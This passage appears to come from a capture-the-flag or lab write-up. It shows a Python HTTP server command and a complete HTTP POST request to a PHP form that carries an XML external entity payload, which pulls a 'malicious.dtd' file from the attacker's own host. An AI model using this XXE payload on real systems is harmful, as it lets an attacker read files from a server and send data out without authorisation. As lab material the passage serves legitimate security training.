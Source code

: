 ```bash
python3 -m http.server 8000
```

We will do the following request:

```
POST /error/submitDetails.php HTTP/1.1
Host: 10.129.198.229
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Content-Length: 238
Origin: http://10.129.13.187
Connection: keep-alive
Referer: http://10.129.13.187/

<?xml version="1.0"?><!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.14.207:8000/malicious.dtd">
  %remote;
  %error;
]>
<root>
<name></name>
<tel></tel>
<email>&nonExistingEntity;</email>
<message></message>
</root>
```

